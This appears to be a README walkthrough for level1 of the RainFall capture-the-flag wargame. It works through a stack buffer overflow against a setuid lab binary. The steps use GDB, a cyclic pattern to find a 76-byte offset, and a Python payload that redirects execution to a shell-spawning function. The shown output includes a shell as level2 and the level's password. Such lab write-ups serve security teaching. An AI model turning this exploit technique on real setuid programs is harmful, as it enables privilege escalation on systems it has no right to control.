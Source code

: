 Here is a detailed README for the `level1` exploit using a buffer overflow with the help of the [Buffer Overflow Pattern Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

---

# Level1 Exploit

## Description

This guide explains how to exploit a buffer overflow vulnerability in the `level1` program. The goal is to redirect the execution flow to a specific function `run` that launches a shell.

## Prerequisites

- Access to the `level1` executable.
- Tools: GDB, Python, and access to the [Buffer Overflow Pattern Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

## Exploitation Steps

### 1. Initial Analysis

List the files in the directory:

```bash
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

### 2. Program Execution

Observe the program behavior with different inputs:

```bash
level1@RainFall:~$ ./level1
a
level1@RainFall:~$ ./level1 test
423
```

### 3. Analysis with GDB

Use GDB to examine the defined functions:

```bash
level1@RainFall:~$ gdb level1
(gdb) info functions
...
0x08048444  run
0x08048480  main
...
```

Identify the address of the `run` function: `0x08048444`.

### 4. Finding the Offset

Generate a pattern with the Pattern Generator to identify the offset:

- Go to [Buffer Overflow Pattern Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).
- Generate a pattern of 80 characters: `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac`.

Create an exploit file:

```bash
level1@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac" > /tmp/pattern
```

Run the program with GDB:

```bash
(gdb) r < /tmp/pattern
```

Once the program crashes (segfault), you get the EIP value:

```bash
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Use the pattern on the [site](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to find the offset. For example, if `0x63413563` corresponds to an offset of 76.

### 5. Creating the Exploit

Create an exploit file with the correct padding and the address of `run`:

```bash
level1@RainFall:~$ python -c 'print("A" * 76 + "\x44\x84\x04\x08")' > /tmp/exploit
```

### 6. Executing the Exploit

Use `cat -` to keep stdin open:

```bash
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

### Explanation

1. **Pattern Generator**: Used to generate a unique and identifiable pattern, allowing you to find the exact offset where the overflow occurs.
2. **Offset**: Identified at 76, meaning 76 characters fill the buffer up to the EIP.
3. **Payload**: Consists of 76 'A's followed by the address of `run` in little-endian format (`\x44\x84\x04\x08`).
4. **Cat - |**: Keeps stdin open, allowing the launched shell to remain interactive.

## Conclusion

By following these steps, you have successfully exploited a buffer overflow vulnerability to gain shell access on `level1`. This technique uses pattern generation tools and basic knowledge of stack operations and instruction pointers.

---

This README guides you through all the necessary steps to reproduce and understand the exploit.